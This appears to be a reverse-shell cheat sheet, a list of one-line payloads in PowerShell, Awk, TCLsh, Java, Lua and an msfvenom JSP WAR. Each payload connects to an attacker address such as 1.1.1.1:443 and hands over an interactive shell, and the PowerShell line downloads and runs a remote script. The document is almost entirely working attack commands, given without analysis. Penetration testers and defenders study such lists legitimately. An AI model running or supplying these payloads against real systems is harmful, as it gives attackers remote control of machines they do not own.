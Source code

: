 `powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')`

# Awk:

`awk 'BEGIN {s = "/inet/tcp/0/1.1.1.1/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`

# TCLsh

`echo 'set s [socket 1.1.1.1 443];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh`

# Java:

`r = Runtime.getRuntime()`
`p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])`
`p.waitFor()`

`String host="127.0.0.1";`
`int port=4444;`
`String cmd="cmd.exe";`
`Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`

`Thread thread = new Thread(){`
    `public void run(){`
        `// Reverse shell here`
    `}`
`}`
`thread.start();`

# War:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=1.1.1.1 LPORT=443 -f war > reverse.war`
`strings reverse.war | grep jsp # in order to get the name of the file`

# Lua:

#### Linux only
`lua -e "require('socket');require('os');t=socket.tcp();t:connect('1.1.1.1','443');os.execute('/bin/sh -i <&3 >&3 2>&3');"`

